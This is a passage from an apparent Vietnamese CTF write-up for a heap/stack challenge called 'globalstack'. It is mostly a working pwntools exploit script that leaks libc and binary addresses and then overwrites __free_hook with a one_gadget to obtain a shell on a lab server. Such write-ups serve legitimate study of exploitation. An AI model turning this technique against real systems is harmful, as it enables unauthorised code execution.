 - sau đó ta tiếp tục ```pop``` -> ```push``` để thay đổi giá trị của ```free_hook``` thành ```one_gadget``` , cuối cùng trước khi kết thúc chương trình thì nó thực hiện ```free``` và ta sẽ có được shell


script 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./globalstack_patched",checksec=False)
libc = ELF("./libc-2.31.so",checksec=False)
ld = ELF("./ld-2.31.so",checksec=False)

context.binary = exe
#p = process()
p = remote('172.31.1.2', 11101)
#gdb.attach(p,gdbscript='''
#           brva 0x0000000000001362
#           brva 0x00000000000013D3
#           ''')

p.sendlineafter(b'>> ',b'pop')

p.sendlineafter(b'>> ',b'show')
p.recvuntil(b'Stack top: ')

libc.address = int(p.recvline()[:-1]) - 0x1ec980
log.info(f'libc: {hex(libc.address)}')
for i in range(4):
    p.sendlineafter(b'>> ',b'pop')
p.sendlineafter(b'>> ',b'show')
p.recvuntil(b'Stack top: ')
exe.address = int(p.recvline()[:-1]) - 0x6d01136010
log.info(f'exe: {hex(exe.address)}')

one_gadget = [0xe3afe,0xe3b01,0xe3b04]

free_hook = libc.sym.__free_hook
libc_onegadget = libc.address + one_gadget[1]

input()
p.sendlineafter(b'>> ',b'pop')
p.sendlineafter(b'>> ',f'push {free_hook}'.encode())

p.sendlineafter(b'>> ',b'pop')
p.sendlineafter(b'>> ',f'push {libc_onegadget}'.encode())

p.sendlineafter(b'>> ',b'exit')


p.interactive()
```
